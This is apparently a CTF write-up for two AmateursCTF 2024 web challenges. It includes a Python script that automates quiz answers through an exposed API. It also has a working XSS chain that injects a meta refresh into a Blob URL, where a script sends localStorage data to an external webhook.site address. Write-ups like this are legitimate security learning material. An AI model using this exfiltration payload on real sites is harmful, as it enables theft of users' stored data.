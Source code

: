 ```yaml
---
date: '2025-02-05T15:19:06+07:00'
draft: false
title: 'AmateursCTF2024'
---
```

## TL;DR
This is a writeup for some web challenge for AmateursCTF 2024
## Lahoot
This is a very fun challenge, just for trolling.
By dirsearch, we will find a hidden endpoint which is /docs.
![gay2](https://hackmd.io/_uploads/BkXdN9vl0.png)

Wow, there is /api/question/{question_id}

And the id is in the HTML itself, in the attribute data-id

![gay6](https://hackmd.io/_uploads/r1PuHcPxR.png)

I plugged 1 question id in, and get this

![gay4](https://hackmd.io/_uploads/rkH-H9wl0.png)
Finally, we can use python script to automate all of these.

```python=
import requests
import re
import urllib.parse


session = requests.Session()

url = 'http://lahoot-async.amt.rs/'
r = session.post(url + 'session', data={'username': 'testtesttest18'})
our_session = session.cookies.get('session')
r = session.get(url + 'question')
print(our_session)
id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
print(id)
r = requests.get(url + 'api/question/' + id)
ans = (r.json()["correctAnswer"])
for i in range(200):
    print(ans)
    r = session.post(url + 'question', data={'answer': ans})
    id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
    print(id)
    r = requests.get(url + 'api/question/' + id)
    ans = (r.json()["correctAnswer"])

```

## Busy-bee
### Analysis
After looking around in index.js, I found interesting function which can change HTML.
```javascript=
const putLog = (msg) => {
  const p = document.createElement("p");
  p.setHTML(msg);
  log.appendChild(p);
};
```
This function is called in a lot of place, but most of them are safe data. But there is a place where untrusted data is passed in.
```javascript=
...
} else if (e.data.type === "error") {
        putLog(e.data.msg);
        res();
      }
...
```
So we will have HTML injection.
### HTML INJECTION
So how could we get that e.data.type === "error"?
In worker.js, we have this
```javascript=
const tickBee = (e) => {
  try {
    const action = beeFn(e.data.world, e.data.me);
    postMessage({ type: "action", action });
  } catch (err) {
    postMessage({
      type: "error",
      msg: `<span class="text-red-500">&gt; A bee has crashed! ${err.toString()}</span>`,
    });
  }
};
```
The function beeFn() must throw an error, and the error will be parsed directly in the msg.
```javascript=
throw new Error("<b>Injected</b>");
```
![gay1](https://hackmd.io/_uploads/B1X6WcPxA.png)
### setHTML()
Can we inject script tag? Sadly no, anything XSS will be filtered by setHTML(). Is this a dead end?
### Blob
After the CTF ended, in discord, someone said that he solved this by using meta tag and Blob. Blob?
The Blob object represents a blob, which is a file-like object of immutable, raw data.
Combining with URL.createObjectURL(), we can “host a simple server”.

And blob URL doesn't have different origin. That's why we can access the window.localStorage.
So by using Blob, we can create a javascript script to make a fetch to our webhook, and retrieve the flag.

Luckily, meta tag isn't blocked at all, so we can use meta tag to redirect to our blob URL.

```htmlembedded!
<meta http-equiv="refresh" content="0;url=???">
```
Combine everthing, we have:
```javascript=
const  htmlcontent = `<script>
    fetch('https://webhook.site/e6ac0f5c-05bb-4b0d-ad0b-0a5595a40691?c=' + window.localStorage.getItem('flag'), {
        method: 'GET',
        mode: 'no-cors'
    });
</script>`;
const blob = new Blob([htmlcontent], { type: 'text/html' });
const blobURL = URL.createObjectURL(blob);
throw new Error('<meta http-equiv="refresh" content="0; url='+blobURL+'">');
```
